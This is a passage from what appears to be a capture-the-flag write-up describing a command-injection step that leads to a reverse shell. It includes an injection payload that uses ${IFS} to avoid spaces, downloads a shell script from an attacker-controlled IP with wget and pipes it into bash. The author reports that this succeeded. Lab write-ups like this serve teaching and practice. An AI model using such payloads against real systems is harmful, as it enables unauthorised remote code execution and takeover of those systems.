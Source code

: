 ![](./IMG/25.png)
- Then I tried to do the upload and execute at the same time
```
;wget${IFS}-O${IFS}-${IFS}http:/10.10.16.107:9797/shell1.sh${IFS}|${IFS}bash;#
```
![](./IMG/27.png)
- It's easy to confirm the payload success to download file 
![](./IMG/28.png)
- I success to get reverse shell 